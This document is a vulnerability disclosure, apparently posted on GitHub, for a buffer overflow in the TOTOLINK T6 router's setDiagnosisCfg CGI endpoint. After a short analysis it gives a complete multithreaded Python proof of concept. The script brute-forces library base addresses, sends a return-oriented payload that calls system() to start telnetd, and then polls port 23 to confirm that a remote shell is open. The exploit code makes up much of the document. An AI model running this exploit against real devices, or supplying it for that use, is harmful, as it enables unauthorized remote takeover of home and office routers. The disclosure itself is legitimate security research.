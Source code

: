 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability that lead to RCE. This vulnerability can be triggered through the topicurl `setDiagnosisCfg`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `command` buffer is 128 bytes.

![](3/1.png)

`ip` is the param attacker control. But attecker need to pass the filter first.

![](3/2.png)

The `Validity_check` is looking for some char can be passed easy.

![](3/3.png)

`sprintf` doesn't check length of `ip`. When the attacker send a malicious `ip` param, the saved ret_address will be overwrite. Lead it to execute whatever the attacker want.

![](3/4.png)

# POC

```python
import requests, sys, threading, time, queue, random, struct, socket, os

MAX_ADDR = 2 ** 12
WORKER_AMOUNT = 10

START_TIME = 0

brute_queue = queue.Queue()

def worker(target_ip):
    while True:
        try:
            brute_val = brute_queue.get_nowait()
        except queue.Empty:
            break
        
        print("  [-] Trying 0x%x" % brute_val)

        url = f"http://{target_ip}/cgi-bin/cstecgi.cgi"

        brute_base = 0x77000000 
        telnetd_str_off = 0x5ba4

        libdl_brute_val = brute_val * 0x1000 + brute_base # base of /lib/libdl-0.9.33.so
        libdl_brute_val += 0x11c000

        libuClibc_brute_val = brute_val * 0x1000 + brute_base # base of /lib/libuClibc-0.9.33.so
        libuClibc_brute_val += 0x14000

        brute_telnet_str = libdl_brute_val + telnetd_str_off
        brute_gadget = libuClibc_brute_val + 0x29d14
        brute_system = libuClibc_brute_val + 0x35140

        temp = struct.pack("<I", brute_telnet_str)
        gadget = struct.pack("<I", brute_gadget)
        gadget_system = struct.pack("<I", brute_system)

        payload = b"A" * 135 + temp + gadget_system + gadget

        data = b'''
        {
            "topicurl":"setDiagnosisCfg",
            "ip":"%s",
            "num":"1"
        }
        ''' % (payload)

        requests.post(url, data=data)

def check_telnet(target_ip):
    global START_TIME
    print("[+] Check telnet port !!")
    while True:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
            sock.settimeout(1)
            try:
                sock.connect((target_ip, 23))
                print(f"[+] Found !!")
                print(f"[+] Script run: {round(time.time() - START_TIME)}s")
                os._exit(0)
            except (socket.timeout, socket.error):
                continue
        time.sleep(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"[-] Usage: {sys.argv[0]} target_ip")
        exit(0)

    START_TIME = time.time()
    print(f"[+] Wish me luck !!")
    
    brutes = list(range(0x10, MAX_ADDR))
    random.shuffle(brutes)

    for brute in brutes:
        brute_queue.put(brute)
    
    threads = []
    for _ in range(WORKER_AMOUNT):
        t = threading.Thread(target=worker, args=(sys.argv[1],))
        t.start()
        threads.append(t)

    t2 = threading.Thread(target=check_telnet, args=(sys.argv[1],))
    t2.start()
    threads.append(t2)

    for t in threads:
        t.join()
```

[POC](https://www.youtube.com/watch?v=Qb_jk3ZUe7o) - Attacker execute `telnetd` by bruteforcing dynamic library base to achive remote shell.
